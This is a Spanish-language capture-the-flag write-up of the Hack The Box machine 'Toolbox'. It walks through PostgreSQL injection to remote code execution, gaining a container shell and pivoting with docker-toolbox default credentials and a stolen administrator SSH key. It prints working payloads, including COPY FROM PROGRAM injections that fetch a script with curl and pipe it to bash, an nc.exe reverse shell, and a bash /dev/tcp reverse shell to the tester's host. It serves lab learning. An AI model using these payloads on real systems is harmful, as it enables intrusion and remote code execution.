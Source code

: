 ```yaml
---
layout: single
title: Toolbox - Hack The Box
excerpt: "En esta máquina fácil Windows nos hemos aprovechado de la vulnerabilidad PostgreSQL Injection, con la que hemos sido capaz de realizar un RCE y conectarnos a un contenedor linux de la máquina víctima. Una vez dentro, nos hemos aprovechado de docker-toolbox (que veíamos en un recurso compartido ftp -boot2docker-) para conectarnos con las credenciales por defecto mediante ssh a la máquina victima real como el usuario docker."
date: 2023-09-15
classes: wide
header:
  teaser: /assets/images/htb-writeup-toolbox/toolbox_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - Windows
  - PostgreSQL Injection
  - Docker
---
```


![](/assets/images/htb-writeup-toolbox/toolbox_logo.png)

# Enumeración
Puertos abiertos:
![](/assets/images/htb-writeup-toolbox/nmap_toolbox.png)

Podemos observar que por el puerto **21 (ftp)** se nos está compartiendo un binario de **docker-toolbox.exe**, ya que podemos acceder como el usuario **anonymous**. A su vez, vemos un subdominio llamado **admin.megalogistic.com** el cuál tenemos que añadir al **/etc/hosts**.

![](/assets/images/htb-writeup-toolbox/etc_hosts_toolbox.png)

Antes de entrar en la web, podemos echar un vistazo al servicio **smb** para ver si nos están compartiendo algún recurso pero no encontraremos gran cosa.

# Explotación servicio web

Una vez accedido a la web veremos el siguiente panel login:

![](/assets/images/htb-writeup-toolbox/login_panel_toolbox.png)

Probando credenciales por defecto como **admin:admin** no conseguiremos acceder pero si ponemos una comilla saltará el siguiente error:

![](/assets/images/htb-writeup-toolbox/sql_injection_toolbox.png)

## ¿Qué es PostgreSQL?

Si miramos la definición que nos pone en la web oficial: *PostgreSQL es un potente sistema de base de datos relacional por objetos de código abierto con más de 35 años de desarrollo activo que le ha valido una sólida reputación por su fiabilidad, robustez y rendimiento.*

Si buscamos información sobre posibles inyecciones SQL encontraremos el siguiente recurso: [Postgre RCE](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql)<br>

Cuyo PoC seria este:
```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```
Sabiendo esto es hora de entablarnos una **reverse shell**. Primero, pobramos suponiendo que el contendor es una máquina Windows. Tramitariamos esta petición y nos pondriamos en escucha con **impacket-smbserver** compartiendo el **netcat** por ejemplo:
```
username=';COPY cmd_exec FROM PROGRAM '\\10.10.14.18\smbFolder\nc.exe -e cmd 10.10.14.18 443';-- -&password='
```
Pero como podemos ver no nos llega ninguna conexión.

![](/assets/images/htb-writeup-toolbox/conect_with_impacket.png)

Por lo tanto, podemos suponer que se trata de una máquina Linux. Para entablarnos la **reverse shell** haremos lo siguiente:
1. Nos creamos un archivo con nombre arbitario, en este caso "test", con el siguiente contenido:<br>
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.18/443 0>&1
```
2. Nos montamos un servidor con python3 compartiendo ese recurso
3. Mandamos la siguiente petición mientras estamos en escucha con netcat por el puerto 443 `nc -lvnp 443`:
```
username=';COPY cmd_exec FROM PROGRAM 'curl 10.10.14.18/test | bash';-- -&password='
```
4. Hacemos un tratamiento de la tty
```
script /dev/null -c bash
Control + z
stty raw -echo; fg
reset xterm
```
5. Accedemos al contenedor que ofrece el servicio web :D.

# Escalada de privilegios
## ¿Qué es Docker-Toolbox?

Según la definición: *Es una aplicación que se instala con un solo clic en su entorno Mac, Linux o Windows y que permite crear, compartir y ejecutar aplicaciones y microservicios en contenedores.*

Indagando un poquito más veremos que posee unas **credenciales por defecto** y como está el puerto **22 (ssh)** de Windows abierto tal vez nos sirvan para conectarnos a la máquina principal. Las podremos ver en este recurso:

- [Docker-Toolbox Default Credentials](https://stackoverflow.com/questions/32646952/docker-machine-boot2docker-root-password)

Hemos concedido acceder a la máquina principal, si nos dirigimos a la raíz del sistema veremos que hay una carpeta llamada **C** con lo que parece ser todos los archivos de la máquina Windows víctima, incluso podemos acceder a la carpeta de **Administrador**. En esta carpeta, encontraremos una clave **id_rsa** con la que podremos acceder a la máquina **Toolbox (10.10.10.236)** mediante los siguientes comandos:
```
# Copiamos la clave id_rsa en nuestra maquina y le asignamos el permiso 600
chmod 600 id_rsa
ssh -i id_rsa administrator@10.10.10.236
```
